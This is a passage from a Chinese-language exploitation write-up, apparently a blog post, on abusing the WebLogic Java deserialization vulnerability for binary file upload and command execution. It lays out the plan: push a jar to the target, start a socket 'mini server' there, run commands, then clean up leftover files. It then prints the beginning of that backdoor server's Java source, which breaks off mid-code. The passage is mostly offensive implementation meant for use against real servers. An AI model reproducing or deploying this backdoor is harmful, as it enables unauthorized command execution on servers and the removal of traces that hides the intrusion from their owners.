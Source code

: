 # WebLogic之Java反序列化漏洞利用实现二进制文件上传和命令执行

0x00 简介
=====

Java反序列化漏洞由来已久，在WebLogic和JBoss等著名服务器上都曝出存在此漏洞。FoxGlove Security安全团队的breenmachine给出了详细的分析，但没有给出更近一步的利用方式。前段时间rebeyond在不需要连接公网的情况下使用RMI的方式在WebLogic上实现了文本文件上传和命令执行，但没有实现二进制文件上传。我通过使用Socket的方式实现了二进制文件上传和命令执行，同时也实现了RMI方式的二进制文件。

0x01 思路
=====

首先发Payload在目标服务器中写入一个Socket实现的迷你服务器类，所有的功能都将由这个迷你服务器来执行，然后再发一个Payload来启动服务器，最后本地客户端创建Socket连接的方式向服务器发送请求来使用相应的功能，其中上传二进制文件我采用分块传输的思想，这样可以实现上传较大的文件。

1.  本地创建Socket实现的迷你服务器类并导出jar包
2.  把jar包上传至目标服务器
3.  启动目标服务器上的迷你服务器
4.  使用二进制文件上传和命令执行功能
5.  发送关闭请求，清理目标服务器残留文件

0x02 实现
=====

1.本地创建Socket实现的迷你服务器类并导出jar包
----------------------------

```
public class Server {

    /**
     * 启动服务器
     * @param port
     * @param path
     */
    public static void start(int port, String path) {
        ServerSocket server = null;
        Socket client = null;
        InputStream input = null;
        OutputStream out = null;
        Runtime runTime = Runtime.getRuntime();
        try {
            server = new ServerSocket(port);
            // 0表示功能模式 1表示传输模式
            int opcode = 0;
            int len = 0;
            byte[] data = new byte[100 * 1024];
            String uploadPath = "";
            boolean isUploadStart = false;
            client = server.accept();
            input = client.getInputStream();
            out = client.getOutputStream();
            byte[] overData = { 0, 0, 0, 6, 6, 6, 8, 8, 8 };
            while (true) {
                len = input.read(data);
                if (len != -1) {
                    if (opcode == 0) {
                        // 功能模式
                        String operation = new String(data, 0, len);
                        String[] receive = operation.split(":::");
                        if ("bye".equals(receive[0])) {
                            // 断开连接 关闭服务器
                            out.write("success".getBytes());
                            out.flush();
                            FileOutputStream outputStream = new FileOutputStream(path);
                            // 清理残留文件
```